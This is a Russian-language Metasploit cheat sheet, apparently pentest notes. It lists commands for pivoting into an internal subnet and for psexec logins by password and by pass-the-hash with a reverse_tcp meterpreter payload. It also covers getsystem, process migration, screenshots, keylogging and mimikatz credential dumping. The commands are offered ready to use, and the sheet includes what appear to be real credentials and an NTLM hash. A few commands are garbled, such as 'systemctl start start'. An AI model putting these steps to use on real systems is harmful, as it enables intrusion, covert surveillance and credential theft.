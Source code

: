 ## Metasploit
Все изложенное проверено на работоспособность в Kali2020.04

# Полезные параметры

`exploit -j` позволяет запускать модуль в background (jobify)

`exploit -z` запускает сессию в background (не понял в чем отличие от _-j_)

`jobs` просмотреть список задать в background

`sessions -l` посмотреть список открытых сессий 

# Инициализация базы данных для сохранение информации.

1. Запуст postgresql.

`systemctl start start`

`systemctl enable start`

2. Инициализация БД 

`msfdb init`

3. Смена пароля пользователя msf

`sudo -u postgres psql`

`postgres=#alter user msf password '123456';`

4. Проверка подключения

`msf5 > db_connect msf:123456@localhost/msf`

5. Автоматическое подключение msf к БД и смена пароля.

`nano /usr/share/metasploit-framework/config/database.yml`

# Проброс во внутренюю сеть (pivoting).

1. Используем модуль ssh_login для захода на пограничный узел.

2. Преобразуем ssh-сессию в сессию meterpreter 

`session -u <session_num>`

3. Выходим из сессии meterpreter-а и используем для неё _post/multi/manage/autoroute_

`post/multi/manage/autoroute`

`set SESSION 8`

`set SUBNET 10.100.36.0`

`run`

Если надо распечатать текущий статут autoroute:

`set CMD print`

`run`

# smb_login или psexec модули 

## Доступ по паролю

`use windows/smb/psexec`

`set RHOST 10.100.36.7`

`set SMBDomain company.ru`

`set SMBPass Qwerty2020`

`set SMBUser eborisenko`

### Необходимо проверить payload. Если Windows x64, то его требуется сменить.

`set PAYLOAD payload/windows/x64/meterpreter/reverse_tcp`

`run`

## Доступ по ntlm-хешу.

Если доступен ntlm-хеш, то к нему в начало надо добавить заглушку в виде нулевого LM-хеша

`set SMBPass 00000000000000000000000000000000:7661de2ec1fe5de9d91da21375bc618d`

### Если в Windows включена "Защита в режиме реального времени", то создания сессии не происходит.

Преобразование сессии meterpreter в cmd.exe.

`shell`

# Получение скриншотов 

## Через получение system

1. получаем права псевдопользователя system:

`getsystem` 

2. Снять скриншот.

`screenshot`

## Через нужные процесс 
1. Перемещение в нужный процесс (explorer.exe)

`migrate 260`

2. Снять скриншот.

`screenshot`

*Замечание* обратный переезд зависит от прав, с которыми запущен целевой процесс (explorer.exe с правами авторизованного пользователя)

# Кейлоггинг
1. Перемещение в процесс explorer.exe.

`migrate 260`

2. Запустить запись символов

`keyscan_start`

3. Посмотреть что получилось.

`keyscan_dump`

4. Завершить.

`keyscan_stop`

# Creds dump

1. Из сессии meterpreter нужной разрядность (!) выполняем команду для загрузки mimikatz:

`load kiwi`

2. Извлекаем все возможные креды:

`creds_all`

# Перемещение по диску

`pwd` - вывод текущей директории

`ls` - список файлов

# Если shell не работает, то есть альтернативный варинт

`execute -f cmd.exe -c`

`channel -i <N>`

# Запуск .rc-скрипта 

`msfconsole -r /var/lib/veil/output/handlers/veilpayload.rc`


